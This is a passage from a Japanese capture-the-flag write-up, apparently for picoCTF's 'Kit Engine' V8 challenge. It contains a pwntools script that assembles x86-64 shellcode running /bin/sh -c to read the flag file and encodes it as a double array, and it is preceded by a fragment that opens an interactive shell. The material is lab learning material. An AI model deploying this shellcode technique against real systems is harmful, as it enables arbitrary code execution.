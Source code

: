 ```python

r.sendline('!sh')
r.interactive()
r.close()
```

# Kit Engine
v8問。今年のpicoctfは3問のv8問があり、かなり敷居が低めに見えるため嬉しい。（解けるわけではない）

この問題のpatchでは、`AssembleEngine`という非常に便利な関数が作られるため、シェルコードを送れば終わりになっています。ただしインタラクティブなシェルを立ち上げられるわけではないので、コマンドをちょこちょこ変更していく必要があります。ところが実行されるアドレスは毎回変わるので、意外とこれをちゃんと作るのは難しいです。

色々探して、結局これをベースにコマンドをdoubleの配列にするスクリプトを作成しました。もう少しきれいにできそうですが、もう少しやりこんでからにしたいので放置しています。nasmでも`call $+X; .ascii "/bin/sh"; pop rdi`のような脱法コードを吐いてくれないのですが、いったいどうすれば。

それはそれとして、callで直後の文字列をスタックに埋めて、これを引数に取り出すシェルコードは本当に天才としか言いようがないです。それなりに必死に考えたあとに見てよかったと思いました。

```python
from pwn import *
import struct
context.arch = 'amd64'

payload = ''
payload += asm('''
xor eax, eax
xor edx, edx
push rdx
call $+0x50
''')
cmd = "/bin/cat /problems/kit-engine_2_0fe35ec487d9dabfac00bd598709a962/flag.txt\x00"
assert len(cmd) <= 0x4b

payload += cmd.ljust(0x4b, '\x00')

payload += asm('call $+8')
payload += "-c\x00"

payload += asm('call $+0xd')
payload += "/bin/sh\x00"

payload += asm('''
pop rdi
push rdi
mov rsi, rsp
mov al, 0x3b
syscall
xor edi, edi
xor eax, eax
mov al, 0x3c
syscall
''')

pad = 8 - len(payload) % 8
payload += '\x00' * pad
print hexdump(payload)

array = [struct.unpack('d', payload[i:i+8])[0] for i in range(0, len(payload), 8)]
print array
```

